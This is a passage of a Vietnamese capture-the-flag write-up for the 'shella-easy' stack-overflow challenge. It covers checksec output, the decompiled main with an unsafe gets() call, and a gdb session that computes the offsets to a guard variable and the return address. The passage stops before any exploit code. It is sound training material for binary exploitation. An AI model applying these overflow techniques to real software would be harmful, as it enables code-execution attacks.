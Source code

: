 # shellaeasy
- Kiểm tra file binary
```bash
┌──(grass㉿kali)-(~/pwn/insomiac/06-bof_shellcode/tu18_shellaeasy)
└─$ file shella-easy 
shella-easy: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=38de2077277362023aadd2209673b21577463b66, not stripped
┌──(grass㉿kali)-(~/pwn/insomiac/06-bof_shellcode/tu18_shellaeasy)
└─$ pwn checksec shella-easy 
[*] '/home/grass/pwn/insomiac/06-bof_shellcode/tu18_shellaeasy/shella-easy'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
┌──(grass㉿kali)-(~/pwn/insomiac/06-bof_shellcode/tu18_shellaeasy)
└─$ ./shella-easy 
Yeah I'll have a 0xff8d2130 with a side of fries thanks
huh
```

decompile chương trình này với ida, hàm main trông như sau:
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[64]; // [esp+0h] [ebp-48h] BYREF
  int v5; // [esp+40h] [ebp-8h]

  setvbuf(stdout, 0, 2, 20);
  setvbuf(stdin, 0, 2, 20);
  v5 = 0xCAFEBABE;
  printf("Yeah I'll have a %p with a side of fries thanks\n", v4);
  gets(v4);
  if ( v5 != 0xDEADBEEF )
    exit(0);
  return 0;
}
```

Ta thấy bài này tiếp tục in ra giá trị của input để giúp chúng ta khỏi khổ sở với ASLR.
Dựa theo hàm main đã decompile được, ta cần ghi đè sao cho v5 có giá trị `0xDEADBEEF` để chương trình không bị exit, và thực hiện truyênf shellcode vào bên trong stack.

Tương tự như bài trước, ta cần tìm offset của v5 và ret addr với gdb
```bash
┌──(grass㉿kali)-(~/pwn/insomiac/06-bof_shellcode/tu18_shellaeasy)
└─$ gdb-gef ./shella-easy
gef➤  disass main
gef➤  b *0x0804853e
Breakpoint 1 at 0x804853e
gef➤  r
Yeah I'll have a 0xffffcee0 with a side of fries thanks
bumblebee
gef➤  i f
Stack level 0, frame at 0xffffcf30:
 eip = 0x804853e in main; saved eip = 0xf7c237c5
 Arglist at 0xffffcf28, args: 
 Locals at 0xffffcf28, Previous frame's sp is 0xffffcf30
 Saved registers:
  ebx at 0xffffcf24, ebp at 0xffffcf28, eip at 0xffffcf2c
gef➤  search-pattern bumblebee
[+] Searching 'bumblebee' in memory
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rwx
  0xffffcee0 - 0xffffcee9  →   "bumblebee" 
gef➤  search-pattern 0xCAFEBABE
[+] Searching '\xBE\xBA\xFE\xCA' in memory
[+] In '/home/grass/pwn/insomiac/06-bof_shellcode/tu18_shellaeasy/shella-easy'(0x8048000-0x8049000), permission=r-x
  0x804851e - 0x804852e  →   "\xBE\xBA\xFE\xCA[...]" 
[+] In '/home/grass/pwn/insomiac/06-bof_shellcode/tu18_shellaeasy/shella-easy'(0x8049000-0x804a000), permission=r--
  0x804951e - 0x804952e  →   "\xBE\xBA\xFE\xCA[...]" 
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rwx
  0xffffcf20 - 0xffffcf30  →   "\xBE\xBA\xFE\xCA[...]" 
```

Dựa vào những gì đã thu đượcccc, ta có thể suy đoán:
- Địa chỉ của v5 nằm ở `0xffffcf20`
- ret address sau khi gọi `gets()` nằm ở `0xffffcf2c`
- Và v4 của chúng ta ở `0xffffcee0`
Suy ra: 
- Offset của `v5` so với `v4` là: 
```bash
>>> hex(0xffffcf20 - 0xffffcee0)
'0x40'
```
- Offset của ret address  với `v5` là
```bash
>>> hex(0xffffcf2c-0xffffcf20)
'0xc'
```
Từ đó ta có chương trình exploit
